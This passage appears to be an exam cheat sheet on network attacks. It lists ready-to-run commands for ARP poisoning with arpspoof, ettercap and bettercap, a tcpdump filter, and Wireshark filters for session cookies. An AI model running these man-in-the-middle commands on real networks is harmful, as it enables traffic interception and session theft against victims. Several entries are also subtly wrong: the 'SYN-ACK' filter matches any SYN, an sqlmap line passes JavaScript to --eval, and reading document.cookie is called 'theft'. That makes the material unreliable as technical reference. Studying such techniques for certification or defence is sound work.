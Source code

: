 ```

tcpdump -i eth0 'tcp[13] & 2 != 0' -vv  # Capture SYN-ACK packets

```

###  ARP Spoofing (Guaranteed Exam Task)

```

# Enable IP Forwarding

echo 1 > /proc/sys/net/ipv4/ip_forward

  

# ARP Poisoning

arpspoof -i eth0 -t 192.168.1.100 -r 192.168.1.1

ettercap -T -q -i eth0 -M arp:remote /192.168.1.100// /192.168.1.1//

```

### Cookie Hijacking (Web Apps)

```

# Live Browser Cookie Theft

document.cookie  # Run in browser console

  

# Cookie Monster Attack

sqlmap -u "http://test.com" --cookie="PHPSESSID=abcd" --eval="document.cookie"

```

### MITM Tools (Exam Essentials)

```

# Wireshark Filters

http.cookie contains "sessionid"

tcp.analysis.retransmission  # Detect hijacking attempts

  

# Bettercap MITM

bettercap -iface eth0

> net.probe on

> net.sniff on

> set arp.spoof.targets 192.168.1.100

> arp.spoof on

```
